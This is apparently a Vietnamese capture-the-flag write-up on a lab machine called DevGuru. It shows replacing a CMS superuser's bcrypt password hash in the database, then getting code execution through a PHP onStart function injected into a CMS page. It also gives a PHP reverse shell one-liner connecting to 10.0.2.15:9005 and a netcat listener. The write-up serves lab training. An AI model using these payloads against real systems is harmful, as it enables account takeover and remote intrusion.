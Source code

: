 Lúc này đã vào được trang quản trị csdl, lướt 1 lúc thì thấy có 1 bảng liên quan đến backend users:

![backend users](/posts/devguru/backend_users.PNG)

Ồ, có 1 record và là `is_superuser`, dùng cái này để login vô trang `/backend` ha. Có thể thấy mật khẩu đã được mã hóa bcrypt, Bcrypt là một dạng hash và rất khó để crack. Đến được đây rồi còn mất công crack với chả bruteforce chi nữa :)) generate ra cái bcrypt hash rồi ném vào đấy là xong rồi.

Nhìn vào chuỗi hash mật khẩu hiện tại của frank

**$2y$10$msFxwTTGvbrs5qGzEucRoeOEH3MyLzynEDcJq0bp8vTk/GvmaB.US**

Với **$2y$10** thì đây có nghĩa là bcrypt với round=10

Generate một hash mới với mật khẩu là **password**

**$2y$10$8QO3BNi6GL0DuSBG36vd8.xo3peTUPUDgqaX5ZIlge8olwUZuG7zq**

Update mật khẩu và dùng nó để đăng nhập vào `/backend`

![backend](/posts/devguru/backend.PNG)

### Remote Code Execution

Nghiên cứu một lúc thấy framework này chứa 1 đống lỗ hổng dẫn đến RCE có thể kể đến như upload shell, chèn code,...

Tại trang CMS tôi sẽ tạo 1 page mới và chèn 1 đoạn code sau

```php
<?php

function onStart() {
    echo shell_exec('id');
}
```

`onStart` sẽ được gọi mỗi khi trang được load

![poc](/posts/devguru/poc.PNG)

Vậy là đã test RCE thành công, ta có thể chạy lệnh bất kì tại đây. Tạo payload reverse shell rồi chạy thôi, ở đây mình dùng PHP proc_open payload được generate từ [revshell.com](https://www.revshells.com/){:target="\_blank"}.

```php
$sock=fsockopen("10.0.2.15",9005);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Đồng thời tạo 1 netcat listener để lắng nghe kết nối.

```shell
$ nc -lnvp 9005
listening on [any] 9005 ...

```

![RCE payload](/posts/devguru/RCE-payload.PNG)

